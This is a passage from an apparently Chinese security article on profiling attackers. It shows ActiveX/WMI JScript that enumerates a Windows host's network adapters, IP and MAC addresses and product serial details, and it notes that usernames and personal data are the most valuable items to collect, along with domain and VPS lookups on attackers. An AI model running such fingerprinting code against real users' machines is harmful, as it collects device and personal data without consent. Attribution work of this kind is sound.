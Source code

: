  **document.write("<td>" + p.Product + "</td>");**

 **document.write("<td>" + p.SerialNumber + "</td>");**

 **document.write("<td>" + p.Version + "</td>");**

 **document.write("</tr>");**

 **}**

 **document.write("</table>");**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**// 网络信息**

**var locator = new ActiveXObject ("WbemScripting.SWbemLocator");  
**

 **var service = locator.ConnectServer(".");**

 **var properties = service.ExecQuery("SELECT * FROM win32_networkadapterconfiguration");**

 **var e = new Enumerator (properties);**

 **document.write("<table border=1>");**

 **for (;!e.atEnd();e.moveNext ())**

 **{**

 **var p = e.item ();**

 **if (p.IPAddress==null) {**

 **continue;**

 **}**

 **document.write("<tr>");**

 **document.write("<td>" + p.Caption + "</td>");**

  **document.write("<td>" + p.IPAddress(0) + "</td>");**

 **document.write("<td>" + p.MACAddress + "</td>");**

 **document.write("</tr>");**

 **}**

 **document.write("</table>");**

**在针对终端获取时，主要还是用户名和个人信息价值为大。**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**另外还有其它信息，比如攻击者采用域名和 vps 的信息**

**域名含有的画像信息可以包含域名注册时间，域名注册商，域名信息，同注册信息域名，域名绑定 IP。**

**IP 含有的画像信息可以包含 IP 反查域名、IP 开放端口、IP 备案信息、IP 历史域名信息。**
